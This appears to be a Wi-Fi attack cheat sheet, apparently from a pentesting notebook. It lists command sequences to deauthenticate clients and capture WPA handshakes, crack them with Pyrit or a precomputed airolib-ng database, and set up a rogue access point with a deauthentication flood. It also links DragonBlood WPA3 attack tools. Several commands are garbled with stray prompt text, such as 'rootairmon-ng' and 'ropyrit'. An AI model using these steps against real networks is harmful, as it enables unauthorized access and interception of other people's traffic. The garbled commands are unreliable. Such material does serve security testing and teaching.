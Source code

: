 ### <mark style="color:orange;">Crack with Pyrit</mark>

```
rootairmon-ng start wlan0
rooairodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
rootaireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
ropyrit -r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
ropyrit -i <Wordlist> import_passwords
ropyrit -e <ESSID> create_essid
rootpyrit batch
rootpyrit -r <PCAP_of_FileName> attack_db
```

### <mark style="color:orange;">Precomputed WPA Keys Database Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
kwrite ESSID.txt
airolib-ng NEW_DB --import essid ESSID.txt
airolib-ng NEW_DB --import passwd <DictionaryFile>
airolib-ng NEW_DB --clean all
airolib-ng NEW_DB --stats
airolib-ng NEW_DB --batch
airolib-ng NEW_DB --verify all
aircrack-ng -r NEW_DB <Handshaked_PCAP>
```

## <mark style="color:red;">WPA3 Attacks</mark>

### <mark style="color:orange;">DragonBlood Attack</mark>

{% embed url="https://wpa3.mathyvanhoef.com" %}

{% embed url="https://github.com/vanhoefm/dragonslayer" %}

{% embed url="https://github.com/vanhoefm/dragondrain-and-time" %}

{% embed url="https://github.com/vanhoefm/dragondrain-and-time" %}

{% embed url="https://www.youtube.com/watch?v=msTugNs8bnM" %}

## <mark style="color:red;">Rogue AP</mark>

```
airmon-ng start wlan0
airbase-ng -e “<FakeBSSID>” wlan0mon
brctl addbr <VariableName>
brctl addif <VariableName> wlan0mon
brctl addif <VariableName> at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig <VariableName> up
aireplay-ng -deauth 0 -a <victimBSSID> wlan0mon
dhclient3 <VariableName> &
wireshark &
;select <VariableName> interface
```
